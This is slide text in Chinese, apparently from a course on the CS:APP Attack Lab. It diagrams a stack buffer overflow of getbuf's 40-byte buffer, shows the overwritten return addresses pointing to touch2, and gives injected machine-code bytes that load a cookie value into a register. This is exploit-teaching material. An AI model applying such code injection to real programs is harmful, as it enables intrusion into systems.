

地址
内容
其他区域
（被篡改为）0x BE 17 40 00 00 00 00 00
（指向 touch 2）
Test 本身使用的内存
（被篡改为）0x 78 DC 61 55 00 00 00 00
call 指令（也即 getbuf 的调用者）的下一行指令的地址
0x 00 00 00 00 55 61 dc a0
getbuf 本身使用的地址，这里会存放输入的串

恰好指向栈顶
40 字节
 0x 48 C7 C7 FA 97 B9 59 C3
0x 00 00 00 00 55 61 dc 78
其中 8 字节是需要的指令